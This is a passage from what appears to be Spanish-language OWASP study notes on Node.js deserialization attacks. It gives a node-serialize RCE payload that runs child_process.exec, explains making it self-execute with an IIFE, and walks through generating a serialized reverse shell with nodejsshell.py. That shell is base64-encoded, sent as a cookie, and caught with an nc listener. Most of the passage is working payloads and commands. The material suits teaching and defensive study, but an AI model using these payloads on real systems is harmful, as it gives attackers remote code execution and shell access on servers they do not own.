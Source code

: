 En el campo payload se ingresan los datos serializados para que luego la deserialice.

Para este ejemplo, se copiarán los datos serializados en el ejemplo anterior:

```bash
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('id', function(error, stdout, stderr) { console.log(stdout) });\n }"}
```

Esto hay que adaptarlo, es decir, se deben quitar los saltos de línea y escapar las comillas simples ya que ya se están usando comillas simples para encerrar la expresión:

![Untitled](../assets/OWASP-TOP-10/Ataques de Deserialización/Untitled 35.png)

Esto al ser ejecutado no pasará nada pero si se le agrega el IIFE, hará que la función se ejecute antes del proceso de deserialización:

![Untitled](../assets/OWASP-TOP-10/Ataques de Deserialización/Untitled 36.png)

## Reverse Shell Serializada con Python

Utilizando estos conceptos, se podría utilizar un script en python el cual servirá para generar una reverse shell serializada:

Proyecto de github: [https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

Uso:

```bash
# Se le debe especificar la IP del atacante y el puerto 
# que se utilizará
python2.7 nodejsshell <IPatacante> <PuertoAtacante>
```

![Untitled](../assets/OWASP-TOP-10/Ataques de Deserialización/Untitled 37.png)

Ahora se puede utilizar estos datos serializados generados para crear un archivo llamado, por ejemplo, “rshell” e insertarlo en el siguiente código serializado:

```bash
{"rce":"_$$ND_FUNC$$_function(){AquívaElComando}()"}
```

Ahora el contenido del archivo se pasa a base64:

```bash
cat rshell | base64 -w 0; echo
```

Y por último, el resultado se envía como Cookie al servidor:

```bash
# Primero se pone la máquina del atacante en modo escucha 
# por el puerto especificado al generar los datos 
# serializados con el script
nc -nlvp 4646
```

![Untitled](../assets/OWASP-TOP-10/Ataques de Deserialización/Untitled 38.png)

![Untitled](../assets/OWASP-TOP-10/Ataques de Deserialización/Untitled 39.png)
